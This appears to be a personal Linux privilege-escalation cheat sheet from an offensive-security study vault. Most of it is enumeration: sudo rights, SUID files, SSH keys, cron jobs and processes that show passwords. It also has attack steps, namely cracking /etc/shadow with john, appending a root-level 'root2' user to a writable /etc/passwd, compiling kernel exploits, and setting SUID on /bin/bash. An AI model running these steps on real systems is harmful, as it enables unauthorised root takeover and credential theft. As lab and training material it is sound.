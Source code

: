 ### Methodology

#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt

#Find all files that are readble by user.
find /etc -type f -readable 2>/dev/null

```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog
```


### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```





```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```